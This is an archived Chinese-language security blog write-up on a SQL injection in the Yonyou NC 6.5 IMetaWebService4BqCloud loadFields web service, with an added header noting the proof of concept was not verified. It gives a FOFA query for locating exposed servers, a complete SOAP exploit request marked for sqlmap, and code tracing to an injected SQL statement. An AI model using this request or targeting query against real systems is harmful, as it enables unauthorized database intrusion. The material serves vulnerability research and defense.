


# 用友NC IMetaWebService4BqCloud loadFields SQL 注入研究

## 条目说明

- 对象与具体问题：用友NC；IMetaWebService4BqCloud loadFields SQLi研究
- 版本、配置及部署条件：NC65；JDBC驱动/数据源类型条件未定
- 认证与权限前提：示例session，未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 作者明确缺关键证据应保留；getColumns可能构造SQL是推测，需驱动实现才能确证拼接
- SmartModel/SmartMeta/NCDB前缀与^拆分已解释，真正SQL执行sink未完整给
- 请求头体缺空行，SmartModel^1'；*是sqlmap占位非独立payload；returnnull转码坏
- 无具体修复/驱动版本，不能把分析推测当已验证根因

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

原创 chobits02  C4安全   2025-07-12 13:36  
  
前言  
  
这次分析的漏洞是用友NC的一个比较隐蔽的SQL注入，网上很少有利用信息公开过  
  
原来我是想投稿在奇安信社区的来着，不过漏洞分析总感觉缺乏关键证据，于是就放在公众号上了，希望有能力的师傅们能就这代码深挖一下  
  
  
  
那么废话少说，一上来就先说下漏洞的利用方法  
  
漏洞影响的产品是用友NC 65版本，FOFA语法是  
```
app="用友-UFIDA-NC"
```  
  
这里请求目标的http://xxxx/uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud?WSDL  
  
可以看到webservice的调用方法，用wsdl解析工具解析下构造请求即可  
  
  
  
使用SQLMAP对数据包进行验证，验证存在注入  
  
  
抓包可以看到，漏洞的利用数据包如下  
```http
POST /uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=09133CFE3A7B0CE8341AB1A7DEDFCCDE.server
Connection: keep-alive
SOAPAction: urn:loadFields
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 350
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:imet="http://meta.ae.pubitf.uap/IMetaWebService4BqCloud">
   <soapenv:Header/>
   <soapenv:Body>
      <imet:loadFields>
         <!--type: string-->
         <imet:string>SmartModel^1';*</imet:string>
      </imet:loadFields>
   </soapenv:Body>
</soapenv:Envelope>
```  
  
  
然后就到分析这一步了，漏洞是怎么来的呢，有请名侦探柯南  
  
  
  
漏洞  
位于IMetaWebService4BqCloud  
接口处，方法的完整路径为uap.pubitf.ae.meta.IMetaWebService4BqCloud  
  
  
这里只关注下面的loadFields方法，到MetaWebService4BqCloud  
里面看一下具体用法，此处传入了字符串  
  
  
可以看到loadFields调用了MetaWebService下面的loadFields方法，继续追踪下去  
  
  
代码如下  
```
public MetaField[] loadFields(String metaEntityId) throws Exception {  
String metaType = MetaUtilities.getMetaTypeFromMetaId(metaEntityId);  
if (StringUtils.isEmpty(metaType))  
returnnull;   
if (!"SmartModel".equalsIgnoreCase(metaType) && !"SmartMeta".equalsIgnoreCase(metaType) && !"NCDB".equalsIgnoreCase(metaType))  
returnnull;   
    IMetaQueryService mqs = (IMetaQueryService)NCLocator.getInstance().lookup(IMetaQueryService.class);  
    IMetaElement e = mqs.getMetaElementByID(metaEntityId);  
if (!(e instanceof IMetaEntity))  
returnnull;   
    IMetaEntity entity = (IMetaEntity)e;  
    IMetaAttribute[] attributes = entity.getMetaAttributes();  
if (attributes == null || attributes.length == 0)  
returnnull;   
List<MetaField> fieldList = new ArrayList<>();  
for (IMetaAttribute a : attributes) {  
if (a != null)  
if (isFieldType(a.getMetaType()))  
          fieldList.add(transToMetaField(a));    
    }   
return fieldList.<MetaField>toArray(new MetaField[fieldList.size()]);  
  }

```  
  
可以看到首先方法下面调用了getMetaTypeFromMetaId  
方法  
```
String metaType = MetaUtilities.getMetaTypeFromMetaId(metaEntityId);

```  
  
追踪一下这个方法是截取字符串中^之前的字符进行返回的  
  
  
  
然后接下来方法中有个判断，说明传入的字符串的^之前字符必须是SmartModel  
或者SmartMeta  
或者NCDB  
，不然返回null  
  
  
然后来到方法getMetaElementByID  
，传入的是完整字符串  
  
  
追踪方法  
  
  
可以看到下面又调用了MetaUtilities的两个方法  
  
  
这两个方法是分别截取字符串^之前的字符和之后的字符的，所以没啥特别的  
  
  
  
然后来到方法getMetaElementByID  
下面的最后一个方法getMetaByBussinessID  
，将上面截断的^前后的字符传入此方法中  
```
public IMetaElement getMetaByBussinessID(String metaType, String businessId) throws MetaException {  
if (StringUtils.isEmpty(metaType))  
returnnull;   
    IMetaDriver[] drivers = MetaDriverManager.getInstance().getDriversByMetaType(metaType);  
if (drivers == null || drivers.length == 0)  
returnnull;   
    IMetaElement result = null;  
for (IMetaDriver driver : drivers) {  
      IMetaElement me = driver.getMetaElementByBusinessId(metaType, businessId);  
if (me != null) {  
        result = me;  
break;  
      }   
    }   
return result;  
  }

```  
  
直接来到最后的方法getMetaElementByBusinessId  
中，此次传入的metaType是字符串^之前的字符，而businessId是^之后的字符，这里再强调下  
  
然后到方法里面又给拼起来了（多此一举），字符串又变成整体传入了getMetaElementByMetaId  
方法中  
  
  
再追踪来到对应方法中  
  
  
这里调用了getInstance  
和getDataSourceByIndentifier  
方法，分别来看下  
  
getInstance  
方法调用了init  
方法，这里是设置元数据名称、类型、ID的  
  
  
初始化时候^之前的作为dsName，^之后的作为是businessId  
  
  
一般businessId不会是"$datesource$"，也没有点号分割，所以会进入第二个if语句当中，把businessId当做表名tableName来查询，造成SQL注入  
  
那再看getDataSourceByIndentifier  
方法看下，就是取出上一步的数据作为数据源连接  
  
  
  
到此分析结束，所以传入这个方法的字符串可以是以SmartModel^开头，后面再拼接SQL语句，类似会得到这样的解析  
```
dsName = "SmartModel"
tableName = "'; 恶意SQL语句--"

```  
  
调用 getColumns(...)  
 时，JDBC 驱动可能构造出类似 SQL  
```
SELECT * FROM ALL_CONS_COLUMNS WHERE TABLE_NAME = ''; 恶意SQL语句--'
```  
  
  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈日常更新漏洞情报，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
  
  
END  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
